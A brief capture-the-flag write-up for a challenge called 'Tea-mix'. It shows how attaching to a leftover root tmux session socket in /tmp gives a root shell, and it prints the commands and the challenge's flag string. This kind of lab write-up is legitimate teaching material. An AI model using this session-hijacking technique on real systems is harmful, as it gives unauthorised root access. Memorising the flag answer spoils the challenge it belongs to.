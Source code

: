 
# Tea-mix
Wow i wonder what this could possibly be


/tmp/ has some session files for tmux sessions including /tmp/tmux-0/tea_mix (btw s at the start of perms means unix socket NOT suid)
```
export TERM=xterm
set tty rows/cols to your own terminal
tmux -S /tmp/tmux-0/tea_mix
root shell
cat /root/flag.txt
```
#### Flag: flag{oooohhhh_tea_mix_sounds_like_tmux_i_get_it}
